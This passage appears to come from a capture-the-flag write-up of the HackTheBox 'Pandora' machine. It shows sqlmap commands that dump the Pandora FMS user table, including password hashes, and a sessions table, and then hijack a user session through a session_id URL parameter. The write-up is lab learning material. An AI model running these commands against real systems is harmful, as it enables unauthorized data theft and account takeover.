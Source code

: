 ```bash
---

sqlmap -r pandora.req --batch -D pandora -T usuario --dump

```

Let's also try:

```bash
time sqlmap -r pandora.req --dump -D pandora --batch --thread 10
```

And see how long it take. We can look at the output using `less` by running:

```bash
less ~/.local/share/sqlmap/output/localhost/dump/pandora/tusuario.csv -S
```

- `-S`: line breaks.

Now we have:

```bash
matt@pandora.htb f655f807365b6dc602b31ab3d6d43acc
daniel@pandora.htb 76323c174bd49ffbbdedf678f6cc89a6
```

We can do:

```bash
sqlmap -r pandora.req --batch -D pandora -T tsessions_php --dump
```

To find out the sessions! We will take one:

```bash
| g4e01qdgk36mfdh90hvcc54umq | id_usuario|s:4:"matt";alert_msg|a:0:{}new_chat|b:0; | 1638796349  |
```

And put it in the URL, like so `http://localhost:8000/pandora_console/include/chart_generator.php?session_id=g4e01qdgk36mfdh90hvcc54umq` and refresh `http://localhost:8000/pandora_console/`. We get it!

![](notes/images/Screenshot%20from%202022-07-18%2013-13-50.png)
